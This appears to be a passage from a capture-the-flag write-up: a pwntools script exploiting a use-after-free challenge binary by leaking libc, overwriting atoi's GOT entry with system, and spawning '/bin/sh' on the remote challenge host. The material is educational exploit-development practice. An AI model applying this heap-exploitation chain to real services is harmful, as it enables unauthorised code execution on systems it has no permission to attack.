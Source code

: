 ```python
elf = context.binary = ELF('./uaf_patched')
libc = ELF('./libc.so.6')
url,port = 'host1.metaproblems.com',5600

if args.REMOTE:
	p = remote(url,port)
else:
	p = elf.process()

if args.GDB:
	gdb.attach(p)

atoi_got = 0x404068

for _ in range(8):
	print('creating',_)
	create(b'test')
for i in range(7,-1,-1):
	print('deleting',i)
	delete(str(i).encode())

leak = view(b'0')
leak = u64(leak.ljust(8,b'\x00'))
offset = 0x7fc1feb0dca0-0x7fc1fe722000
libc.address = leak-offset
print(hex(leak))

edit(b'1',p64(atoi_got))
create(b'test')
create(p64(libc.sym['system']))
option(b'/bin/sh')


p.interactive()
p.close()
```
{% endtab %}
{% endtabs %}

{% hint style="danger" %}
If you are testing locally, make sure to patch your binary to use the libc.so.6 given!
{% endhint %}
